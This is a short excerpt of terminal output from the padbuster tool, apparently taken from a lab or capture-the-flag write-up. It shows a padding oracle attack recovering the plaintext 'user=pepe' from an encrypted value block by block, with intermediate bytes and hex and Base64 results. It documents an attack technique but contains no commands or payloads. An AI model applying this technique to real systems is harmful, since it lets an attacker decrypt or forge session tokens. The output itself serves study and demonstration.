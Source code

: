 ```bash
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (157/256) [Byte 8]
[+] Success: (61/256) [Byte 7]
[+] Success: (158/256) [Byte 6]
[+] Success: (3/256) [Byte 5]
[+] Success: (48/256) [Byte 4]
[+] Success: (11/256) [Byte 3]
[+] Success: (31/256) [Byte 2]
[+] Success: (164/256) [Byte 1]

Block 1 Results:
[+] Cipher Text (HEX): 4566641833ccf230
[+] Intermediate Bytes (HEX): 54e6f3d5f961c162
[+] Plain Text: user=pep

Use of uninitialized value $plainTextBytes in concatenation (.) or string at /usr/bin/padbuster line 361, <STDIN> line 1.
*** Starting Block 2 of 2 ***

[+] Success: (202/256) [Byte 8]
[+] Success: (9/256) [Byte 7]
[+] Success: (56/256) [Byte 6]
[+] Success: (208/256) [Byte 5]
[+] Success: (230/256) [Byte 4]
[+] Success: (155/256) [Byte 3]
[+] Success: (154/256) [Byte 2]
[+] Success: (216/256) [Byte 1]

Block 2 Results:
[+] Cipher Text (HEX): 110dd45cece2a694
[+] Intermediate Bytes (HEX): 2061631f34cbf537
[+] Plain Text: e

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): user=pepe

[+] Decrypted value (HEX): 757365723D7065706507070707070707

[+] Decrypted value (Base64): dXNlcj1wZXBlBwcHBwcHBw==

-------------------------------------------------------
```

